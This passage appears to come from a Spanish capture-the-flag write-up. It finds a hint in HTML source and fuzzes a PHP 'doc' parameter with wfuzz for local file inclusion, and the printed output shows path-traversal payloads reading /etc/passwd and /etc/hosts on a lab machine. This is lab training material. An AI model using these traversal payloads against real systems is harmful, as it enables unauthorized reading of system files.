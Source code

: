 Pero revisando el código fuente encuentro algo que ya me llama la atención y que me puede servir para explotar la máquina!

```html
<!-- Redimensionar la imagen en check_if_exist.php?doc=keyboard.html -->
```

Me dirijo a la ruta `tools/check_if_exist.php?doc=keyboard.html` y puedo ver una imágen de un teclado con una descripción del mismo.

# Explotación [#](explotación) {#explotación}

Pero lo interesante viene en probar si es posible explotar un LFI.

Para ello tengo un diccionario específico, por lo que haciendo uso del diccionario y de wfuzz podemos comprobar si es posible explotar el LFI.

<a href="https://github.com/danielmiessler/SecLists">Repositorio Seclists</a>

```bash
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.37/tools/check_if_exist.php?doc=FUZZ
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000201:   200        7 L      22 W       189 Ch      "../../../../../../../../../../../../etc/hosts"                                                                        
000000256:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"                                                  
000000260:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                              
000000253:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                         
000000261:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                 
000000266:   200        26 L     38 W       1369 Ch     "../../../../../../../../../etc/passwd"                                                                                
000000258:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                        
000000254:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                            
000000249:   200        26 L     38 W       1369 Ch     "/../../../../../../../../../../etc/passwd"                                                                            
000000257:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                     
000000267:   200        26 L     38 W       1369 Ch     "../../../../../../../../etc/passwd"                                                                                   
000000255:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"                                               
000000264:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../etc/passwd"                                                                          
000000262:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                    
000000265:   200        26 L     38 W       1369 Ch     "../../../../../../../../../../etc/passwd"                                                                             
000000306:   200        26 L     38 W       1369 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                                                           
000000269:   200        26 L     38 W       1369 Ch     "../../../../../../etc/passwd"                                                                                         
000000268:   200        26 L     38 W       1369 Ch     "../../../../../../../etc/passwd"                                                                                      
000000270:   200        26 L     38 W       1369 Ch     "../../../../../etc/passwd"
```